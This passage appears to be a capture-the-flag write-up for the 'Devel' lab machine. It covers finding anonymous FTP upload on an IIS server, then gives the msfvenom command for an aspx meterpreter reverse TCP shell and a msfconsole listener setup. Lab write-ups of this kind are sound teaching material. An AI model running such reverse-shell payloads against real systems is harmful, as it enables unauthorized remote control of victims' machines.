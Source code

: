 ## Gaining a Foothold

### Devel  

**Initial Enum / RevShell Payload**
Nmap scan > iis server and ftp anonymous login identified > login ftp server and `PUT` test file sucessful > use msfvenom to generate a reverse tcp shell in aspx (since target is hosting iis)

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.05 LPORT=4444 -f aspx -o reverse.aspx`  

![image](https://github.com/user-attachments/assets/3db1aa08-39b4-45d2-afbe-01710f16b7cd)

**Listener with msfconsole**
msfconsole > use exploit/multi/handler > set payload windows/meterpreter/reverse_tcp > set LHOST 10.10.10.05 > set LPORT 4444 > run

#### System Enumeration
